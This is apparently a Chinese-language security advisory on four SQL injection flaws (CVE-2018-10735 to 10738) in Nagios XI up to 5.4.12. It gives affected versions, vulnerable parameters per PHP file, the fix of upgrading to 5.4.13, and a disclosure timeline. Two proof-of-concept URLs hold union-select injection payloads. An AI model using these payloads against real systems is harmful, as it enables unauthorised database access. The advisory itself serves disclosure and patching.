




漏洞简介
Nagios 是一款开源的免费网络监视工具，能有效监控 Windows、Linux和 Unix 的主机状态，交换机路由器等网络设备，打印机等。在系统或服务状态异常时发出邮件或短信报警第一时间通知网站运维人员，在状态恢复后发出正常的邮件或短信通知。Nagios XI 在小于等于 5.4.12 的版本中存在多个 SQL 注入漏洞。
漏洞影响
- Nagios XI 5.2.x
- Nagios XI 5.4.x 小于 5.4.13
漏洞分析
commandline.php SQL 注入漏洞(CVE-2018-10735)
nagiosql/admin/commandline.php
1 | $preNoMain = 1; |
参数cname是完全没有任何过滤的，直接拼接到了SQL语句中，从而造成SQL注入漏洞。
PoC
1 | http://xxx/nagiosql/admin/commandline.php?cname='%20union%20select%20concat(0x7e7e7e,user(),0x7e7e7e)%23 |

info.php SQL 注入漏洞(CVE-2018-10736)
nagiosql/admin/info.php
1 | $preNoMain = 1; |
参数key1和key2还有version都是没有过滤直接拼接到 SQL 语句中，从而造成 SQL 注入漏洞。
PoC
1 | http://xxxx/nagiosql/admin/info.php?key1='%20union%20select%20concat(0x7e7e7e,user(),0x7e7e7e)%23 |

logbook.php SQL注入漏洞(CVE-2018-10737)
nagiosql/admin/logbook.php
1 | ...... |
参数txtSearch是完全没有任何过滤的，直接拼接到了SQL语句中，从而造成SQL注入漏洞。
PoC
1 | http://xxxx/nagiosql/admin/logbook.php |

menuaccess.php SQL 注入漏洞(CVE-2018-10738)
nagiosql/admin/menuaccess.php
1 | $preAccess = 1; |
参数chbKey1是完全没有任何过滤的，直接拼接到了SQL语句中，从而造成SQL注入漏洞。要进入到SQL语句中，参数subSave不能为空，参数selSubMenu不能为0。
PoC
1 | http://xxxx/nagiosql/admin/menuaccess.php |

漏洞修复
- 升级到 5.4.13 版本。
时间线
- 2018年5月3日发现漏洞
- 2018年5月4日确定官方已修复该漏洞
- 2018年5月5日申请CVE
- 2018年5月17日公开漏洞